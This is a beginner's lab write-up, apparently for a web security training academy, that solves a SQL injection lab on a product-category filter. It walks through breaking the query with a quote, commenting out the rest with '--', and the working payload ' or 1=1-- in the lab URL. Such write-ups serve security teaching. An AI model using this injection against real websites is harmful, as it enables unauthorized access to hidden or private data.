 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- lab contains a SQL injection vulnerability in the product category
- When the user selects a category, the application carries out a SQL query like the following
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- Goal : display one or more unreleased products 
# Solving the lab 
- the url of the lab is like this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=Lifestyle
```
- first thing to try is to break the webapp so lets try this
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=' 
```
- and we got internal server error and breacked the app
- the sql query became like this 
```
SELECT * FROM products WHERE category = ''' AND released = 1
```
- now we need to make the rest of the query commencted like this
```
SELECT * FROM products WHERE category = ''--' AND released = 1
```
- and the server will read the query like this 
```
SELECT * FROM products WHERE category = ''
```
- now we need to display all the products in any category, including categories that they don't know about
- as we learnt from the academics we can insert (or 1=1 ) so our query will look like this
```
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```
- and we solved the lab with this url
```
https://0aa100aa03460e178277bf9200a400f4.web-security-academy.net/filter?category=' or 1=1--
```
